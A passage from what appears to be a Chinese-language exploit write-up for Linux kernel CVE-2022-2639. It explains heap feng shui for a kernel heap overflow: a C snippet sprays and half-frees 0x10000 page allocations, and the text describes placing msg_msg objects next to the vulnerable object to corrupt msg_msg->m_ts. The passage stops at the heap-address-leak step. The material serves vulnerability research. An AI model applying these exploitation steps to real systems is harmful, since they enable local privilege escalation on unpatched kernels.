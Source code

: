 **构造漏洞对象与 `msg_msg` 相邻**：喷射32个 0x10000 大小的堆块，这样就会从 0x20000（order 5）的页申请内存并分割成两个 0x10000（order 4）堆块，并且大概率相邻；释放奇数下标的 0x10000 堆块。

```c
#define fengshui_skfd_cnt (0x20)

int fengshui_skfd[fengshui_skfd_cnt];
for (int i = 0; i < fengshui_skfd_cnt; i++) {
	fengshui_skfd[i] = pagealloc_pad(1, 0x10000);
}
for (int i = 1; i < fengshui_skfd_cnt; i += 2) {
	close(fengshui_skfd[i]);
	fengshui_skfd[i] = -1;
}
```

堆喷 1个 0x1000 的 `msg_msg` 和1个 0x400的 `msg_msgseg`，大概率与某个漏洞对象相邻。

释放另一半的 `rx_ring` buffer，触发漏洞分配漏洞对象并溢出篡改相邻 `msg_msg` 的 `msg_msg->m_ts` 成员。

![1-vul_state](/images/posts/CVE-2022-2639/1-vul_state.png)

### 2-3. 泄露堆地址

**步骤**：
